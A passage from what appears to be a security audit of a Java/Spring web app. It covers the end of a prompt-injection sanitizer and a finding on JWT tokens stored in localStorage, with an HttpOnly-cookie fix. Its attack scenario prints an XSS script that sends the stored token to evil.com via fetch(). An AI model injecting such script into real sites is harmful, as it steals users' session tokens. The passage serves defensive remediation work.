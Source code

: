 ```java

        // Log suspicious patterns
        if (!input.equals(sanitized)) {
            log.warn("Potential prompt injection detected");
        }

        return sanitized.trim();
    }
}
```

**Priority:** CRITICAL (Security)
**Effort:** 1-2 days
**GitHub Issue:** #[TBD]

---

### 3. JWT Token Stored in LocalStorage (HIGH - XSS Risk)

**Issue:**
- Frontend likely stores JWT in localStorage
- Vulnerable to XSS attacks

**Current Implementation:**
```javascript
// Frontend (assumed)
localStorage.setItem('token', response.data.token); // VULNERABLE
```

**Attack Scenario:**
```javascript
// Attacker injects XSS payload via user-generated content
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('token'));
</script>
// Token stolen, attacker gains full access
```

**Remediation:**
1. **Option A: HttpOnly Cookies (Recommended)**
   ```java
   // AuthController
   @PostMapping("/login")
   public ResponseEntity<AuthResponseDto> login(
           @Valid @RequestBody LoginRequestDto request,
           HttpServletResponse response) {

       AuthResponseDto authResponse = authService.login(request);

       // Set token in HttpOnly cookie
       Cookie cookie = new Cookie("auth_token", authResponse.getToken());
       cookie.setHttpOnly(true);
       cookie.setSecure(true); // HTTPS only
       cookie.setPath("/");
       cookie.setMaxAge(24 * 60 * 60); // 24 hours
       cookie.setSameSite("Strict");
       response.addCookie(cookie);

       return ResponseEntity.ok(authResponse);
   }
   ```
